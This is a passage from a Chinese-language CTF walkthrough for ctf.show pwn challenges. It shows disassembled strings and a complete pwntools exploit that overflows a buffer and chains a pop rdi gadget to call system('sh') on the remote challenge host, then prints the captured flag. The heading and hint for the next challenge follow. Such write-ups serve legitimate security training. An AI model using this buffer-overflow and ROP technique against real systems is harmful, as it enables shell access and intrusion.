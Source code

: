 ```
.rodata:0000000000400868 ; const char command[]
.rodata:0000000000400868 command         db 'echo flag',0        ; DATA XREF: hint+4↑o
.rodata:0000000000400872 ; const char format[]
.rodata:0000000000400872 format          db 'sh',0               ; DATA XREF: useful+4↑o
.rodata:0000000000400875                 align 8
```



查找rdi的地址：

![image-20241101155633995](../_media/image-20241101155633995.png)



最终exp：

记得是先压sh地址，再压system的地址

```python
# -*- coding: utf-8 -*-
from pwn import *
from LibcSearcher import *
context(arch='amd64',os='linux',log_level='debug')

ip = "pwn.challenge.ctf.show"
port = 28286

p = remote(ip,port)

payload = b'a'* (0x0A + 0x08) + p64(0x400843)  +  p64(0x400872) + p64(0x4006B2)

p.sendline(payload)

p.interactive()
```





拿到flag

```
ctfshow{911f5362-3a05-43cd-a037-7bcf21b42120}
```



## ==43. pwn43（gets多次）==

32位的 system(); 但是好像没"/bin/sh" 上面的办法不行了，想想办法

![image-20241101160229885](../_media/image-20241101160229885.png)
